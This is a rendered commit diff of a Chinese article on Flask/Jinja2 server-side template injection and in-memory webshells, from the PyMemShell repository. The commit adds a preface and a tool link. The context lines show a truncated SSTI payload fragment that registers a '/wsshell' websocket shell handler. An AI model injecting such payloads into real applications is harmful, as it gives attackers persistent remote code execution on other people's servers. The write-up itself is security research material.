

Before and after one commit to orzchen/PyMemShell, a Markdown page: Python Flask中的SSTI和内存马.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Python Flask中的SSTI和内存马.md
+++ b/Python Flask中的SSTI和内存马.md
@@ -1,4 +1,6 @@
 # 前言
+前段时间在看内存马相关内容时，发现python方面的资料不是很多，感觉可能是python web本来就少没那么热门，能够拿到shell的方法也不多。但是还是在SSTI的漏洞利用基础上探索了一些新姿势。
+在 websocket 那节纯纯尝试，实战中几乎没有用。
 # SSTI相关
 Flask 框架默认使用 Jinja2 作为模板引擎来动态的渲染网页。
 关于 SSTI 已经有了不少优秀的文章，这里只是说一下个人理解和折腾。
@@ -742,3 +744,7 @@ app.extensions['socketio'].server.handlers['/wsshell']['shell']= lambda s,d: __i
 {'app':url_for.__globals__['current_app'] })
 }}
 ```
+
+
+用到的demo以及开发的工具：
+[https://github.com/orzchen/PyMemShell/](https://github.com/orzchen/PyMemShell/)
````
